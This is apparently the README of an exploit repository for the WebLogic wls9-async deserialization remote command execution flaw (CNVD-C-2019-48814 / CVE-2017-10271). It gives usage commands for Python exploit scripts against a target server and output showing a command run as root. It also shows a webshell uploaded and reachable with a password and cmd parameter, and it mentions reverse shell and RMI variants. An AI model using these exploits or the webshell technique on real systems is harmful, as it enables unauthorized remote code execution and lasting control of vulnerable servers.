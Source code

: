 # CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞


### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[![CNVD-C-2019-48814](https://i.ytimg.com/vi/KEgOrgcLu0s/hqdefault.jpg?sqp=-oaymwEZCNACELwBSFXyq4qpAwsIARUAAIhCGAFwAQ==&rs=AOn4CLCLGk3OZ83msmbe5IgfAq6EFN2Dhw)](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI
![](./python.jpg)

![](./burpsuite.jpg)

###  CVE-2017-10271 No pactch

#### windows-linux-webshell
```
upadte: 自定义webshell名字，适用于windows or linux upload webshell

python async_webshell-all.py  http://10.10.20.166:7001/ webshell.jsp
>>>Webshell:
http://10.10.20.166:7001//bea_wls_internal/webshell.jsp?pwd=123&cmd=whoami
```
![](./windows-linux-webshell.jpg)


#### resever_shell
![](./reserve_shell.jpg)
#### command see
![](./command.jpg)
#### webshell
![](./webshell.jpg)

